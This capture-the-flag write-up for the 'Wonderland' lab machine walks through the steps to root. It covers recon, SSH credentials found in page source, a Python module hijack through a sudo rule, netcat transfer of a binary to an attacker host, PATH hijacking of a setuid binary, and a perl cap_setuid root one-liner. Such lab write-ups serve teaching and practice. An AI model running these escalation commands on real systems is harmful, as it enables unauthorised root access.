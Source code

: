 # WRITEUP for Wonderland

## Obtain the flag in user.txt & Escalate your privileges, what is the flag in root.txt?

* After firing up the machine we do a nmap scan and find out http and ssh open, so having a look at we server we can run dirsearch.

* Dirsearch results return /r directory , by intuition we can analyse it further and have a /r/a directory. In this way we find /r/a/b/b/i/t and the source code of this page has ssh creds.

* After logging in using the ssh creds we can scp linpeas to the machine to perform priv - esc.
```
scp /location/linpeas.sh alice@IP:/dev/shm
``` 

Analysing the results of linpeas we find 
```
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```
this tells us that perl can set uid. We can use this as a priv esc technique. But checking the permissions of perl we see that it is being run by 'hatter' group.
```
ls -l /usr/bin/perl
```
result:- ```-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl```

We can take a look at /etc/sudoer.d/ . From here we find user alice and it contains this info.
```
alice ALL = (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
Alice can run this python script as rabbit.

Now we can see that that the script imports 'random' python module, So we can create our own malicious python module and do priv - esc.
So we create a random.py file
```
import os
os.system("/bin/bash")
```   
and then we run this as rabbit
```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 
```
and now we are user rabbit.
We can travel to /rabbit where we find binary file teaParty.

Now we have to transfer this binary to our attackers machine from wonderland machine, we can do this by using netcat.


### Attacking side 
```
nc -lnvp 9999 > teaParty
``` 
### Victims side
```
nc <Attacker's IP> 9999 < teaParty
```
Now that we have the file we can run strings on it and analyse it.
We see that the binary has setuid that means it can set uid and it has this line.
```
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```
We can see that it is taking date from the system path, so we can create our own date script and export path to $PATH variable.
so in /rabbit directory we make a bash script named as date
```
#!/bin/bash
/bin/bash -p
```
so we can run this script and export the path to $PATH variable
```
export path=/home/rabbit/:$PATH
```
now when we run teaParty we see that out uid is set as hatter.(out guid is still rabbit).
but now we can see access the hatter directory and cat out the password file and use that password to login as hatter. (```su -l hatter```)
Now we can exploit the perl.

This is a great resource:- https://gtfobins.github.io/gtfobins/perl/

Now that we are perl we can use this command to become root.
```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
```
Now we are root and we can get both user.txt and root.txt.



